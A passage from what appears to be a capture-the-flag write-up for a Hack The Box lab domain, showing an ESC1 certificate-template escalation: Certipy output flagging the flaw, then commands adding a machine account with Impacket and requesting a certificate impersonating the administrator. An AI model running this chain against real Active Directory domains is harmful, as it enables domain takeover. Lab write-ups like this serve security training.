 ```bash
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication

```

Since the certificate template is vulnerable to [ESC1](https://posts.specterops.io/certified-pre-owned-d95910965cd2), I begin exploiting it by leveraging the default privilege of any Active Directory user to add up to 10 computer objects to the domain. [`addcomputer.py`](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) allows me to create a new computer object on the domain.

```bash
$ addcomputer.py -computer-name 'FILE01$' -computer-pass 'mGND8%XxP$87*m#V!H8t3BqRwYvfJt' -dc-host authority.htb 'AUTHORITY.htb/svc_ldap:l[REDACTED]!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account FILE01$ with password mGND8%XxP$87*m#V!H8t3BqRwYvfJt.
```

Using the machine account name and password, I can now request a certificate based on the misconfigured `CorpVPN` template to impersonate the administrator account on the domain.

```bash
$ certipy req -username 'FILE01$@authority.htb' -password 'mGND8%XxP$87*m#V!H8t3BqRwYvfJt' -target authority.htb -ca 'AUTHORITY-CA' -template CorpVPN -upn 'administrator@authority.htb'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

